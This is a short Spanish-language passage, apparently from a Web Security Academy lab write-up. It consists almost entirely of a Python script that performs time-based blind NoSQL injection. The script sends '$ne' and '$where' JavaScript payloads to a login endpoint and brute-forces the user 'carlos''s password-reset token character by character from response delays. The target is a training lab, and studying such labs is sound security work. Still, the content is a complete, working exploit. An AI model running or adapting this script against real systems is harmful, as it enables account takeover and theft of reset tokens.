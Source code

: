 Nos `creamos` un `script` de `python` como `alternativa` al `Cluster bomb`

{% raw %}
```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a6500eb04601776824d6aae006d0026.web-security-academy.net/login"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    headers = {
        'Content-Type': 'application/json'
    }

    with open("output.txt", "w") as f:
        for position in range(0, 16):
            for character in characters:

                json_data = {
                    "username": "carlos",
                    "password": { "$ne": "testing" },
                    "$where": "function(){ if(this.resetToken.match('^.{%d}%s.*')) sleep(5000); }" % (position, character)
                }

                p1.status(json_data['$where'])

                time_start = time.time()

                r = requests.post(url, json=json_data, headers=headers)

                time_end = time.time()

                if time_end - time_start > 5:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
{% endraw %}
